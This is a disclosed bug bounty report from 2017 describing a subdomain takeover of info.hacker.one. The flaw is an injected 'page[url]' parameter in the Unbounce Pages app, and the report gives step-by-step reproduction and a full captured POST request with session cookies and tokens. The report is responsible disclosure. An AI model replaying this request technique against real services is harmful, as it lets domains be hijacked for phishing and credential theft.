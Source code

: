 # Subdomain takeover #3 at info.hacker.one

## Report Details
- **Report ID**: 217358
- **URL**: https://hackerone.com/reports/217358
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-03-30T22:20:46.114Z
- **Disclosed**: 2017-06-21T04:10:57.987Z

## Reporter
- **Username**: ak1t4
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**

Hi team, looking the last fix released from unbounce team at https://hackerone.com/reports/209004 i've been able again to bypass it again and takeover the subdomain info.hacker.one with a new vulnerable __PARAM__ at UnbouncePages App

Actual Dns Entry:

{F172446}

### Steps To Reproduce & New PoC for HackerOne

1) I have claimed the domain and placed a new-page for PoC validation located under: 
Go to -> https://info.hacker.one/new-awesome-takeover/
2) You see the alert box and the New Subdomain Takeover

{F172447}
{F172448}


[ Unbounce Pages Team Section ]

### Reproduction Steps PoC at new PARAM-Endpoint

1) Login to account
2) Create a New Page under any domain
3) Go to "EDIT NAME"
4) Fill with any input 
5) Intercept Request with burp or another proxy
6) Add this body params:
```
&page%5Burl%5D=info%2ehacker%2eone%2Ftakeover-bypass-by-ak1t4
```
7) Refresh page - You see the New Claimed Domain at Url Page
{F172451}

[ POST REQUEST ]
```
POST /2235922/pages/eb50eb0c-48a8-483b-8747-285aacbeaed6 HTTP/1.1
Host: app.unbounce.com
Connection: close
Content-Length: 160
X-NewRelic-ID: XQQAUl9ADAQFV1hW
Origin: https://app.unbounce.com
X-CSRF-Token: 7fHXoRIVY2kDTQxt+k6jjNgJagryJHBfu7MuZLtB7V4=
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_10_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
X-Requested-With: XMLHttpRequest
Referer: https://app.unbounce.com/2235922/pages/eb50eb0c-48a8-483b-8747-285aacbeaed6
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.8,fi;q=0.6,en;q=0.4
Cookie: optimizelyEndUserId=oeu1486009343856r0.6355656073169369; __qca=P0-1900902187-1486458680293; km_lv=x; _okdetect=%7B%22token%22%3A%2214865300449170%22%2C%22proto%22%3A%22https%3A%22%2C%22host%22%3A%22app.unbounce.com%22%7D; _ok=9006-109-10-5599; _hjIncludedInSample=1; __distillery=13f6068_9ea46c19-8132-4e4f-a2a7-33f852efb977-854183e7d-b084e0ec963d-a310; _vis_opt_s=1%7C; _vis_opt_test_cookie=1; _vwo_uuid_v2=900CADBE3098CA856771F9DD381BEE83|2fbe46dc8984391b55ad33e11de009f6; __hstc=26860514.14d0f12fb1edb765ae477bb6b6c8267f.1488073812483.1490506325671.1490587373830.17; __hssrc=1; hubspotutk=14d0f12fb1edb765ae477bb6b6c8267f; ubvt=186.133.157.681486461608015598; _okac=bc8588c05fd6d7326c40a2ed71d3c572; _okla=1; _okbk=cd5%3Davailable%2Ccd4%3Dtrue%2Cvi5%3D0%2Cvi4%3D1490899590655%2Cvi3%3Dactive%2Cvi2%3Dfalse%2Cvi1%3Dfalse%2Ccd8%3Dchat%2Ccd6%3D0%2Ccd3%3Dfalse%2Ccd2%3D0%2Ccd1%3D0%2C; _lp-webapp_session=BAh7CEkiD3Nlc3Npb25faWQGOgZFVEkiJTE4MzQ0MTI1MTEyZmVmZWY1OGFjMzRlOWE5MmUxZWEyBjsAVEkiEF9jc3JmX3Rva2VuBjsARkkiMTdmSFhvUklWWTJrRFRReHQrazZqak5nSmFncnlKSEJmdTdNdVpMdEI3VjQ9BjsARkkiDHVzZXJfaWQGOwBGaQOOrh8%3D--7dc60f053571cb02d56d36e32bcfa074a50559d1; optimizelySegments=%7B%22181202216%22%3A%22false%22%2C%22181231084%22%3A%22referral%22%2C%22181236069%22%3A%22gc%22%7D; optimizelyBuckets=%7B%7D; _ga=GA1.2.698694919.1486458679; olfsk=olfsk4517478054873454; wcsid=PNXDqm36xvlrxT6B9x5TA0S0RE0PFAam; hblid=gQ8SNvQtERsXysoj9x5TA2AiCS3RE0OF; _okgid=bc6ff4d51dee8959d8e5980f77366c67; _ga=GA1.3.698694919.1486458679; kvcd=1490911449733; km_ai=████; km_ni=███████; km_vs=1; intercom-session-eqe7kbcu=KzB6MDkwZFQxdzBXUU1zRExacHl5c0VpZXpuSTVBaFpQbHBkd0FSOStJZ29mNldnYThhVFRVbFFFdXhtNEY3Ty0tVDRGTDVGZy9QakxqNTFSL3N2Q0RJUT09--a0cd83192ad36755d2bcaaaeefa0aa8026c4e5d7; _oklv=1490911811537%2CPNXDqm36xvlrxT6B9x5TA0S0RE0PFAam

utf8=%E2%9C%93&_method=put&authenticity_token=7fHXoRIVY2kDTQxt%2Bk6jjNgJagryJHBfu7MuZLtB7V4%3D&page%5Bname%5D=testing+new+param+vulnerable+at+unbouncepages.com+&page%5Burl%5D=info%2ehacker%2eone%2Ftakeover-bypass-by-ak1t4
```
 **Vulnerable Injected PARAM:** page%5Burl%5D=anydomain.com
**Endpoint:** /[account-id]/pages/[page-id]

**This Request update the page with the New Domain (any domain could be used and creating content into it)**

I create a New Private Video PoC here for the above explained -> https://youtu.be/1PWS76Am7y0

**(All branded domains under unbounce app are vulnerable)**

## Security Impact at H1:

*An attacker can utilize this domain info.hacker.one for targeting the organization by fake login hackerOne forms, or steal sensitive information of teams (credentials, credit card information, etc)

## Security impact at Unbounce Pages:

*An attacker can utilize this bug affecting all branded domains and customers at unbouncepages.com
and use all domains with evil purposes as stealing of sensitive information, credentials, credit card info, etc

Please let me know if more info needed or any help,

Best Regards,
@ak1t4

## Attachments
- Captura_de_pantalla_2017-03-30_a_las_18.47.00.png
- Captura_de_pantalla_2017-03-30_a_las_18.44.09.png
- Captura_de_pantalla_2017-03-30_a_las_18.44.18.png
- Captura_de_pantalla_2017-03-30_a_las_19.07.29.png
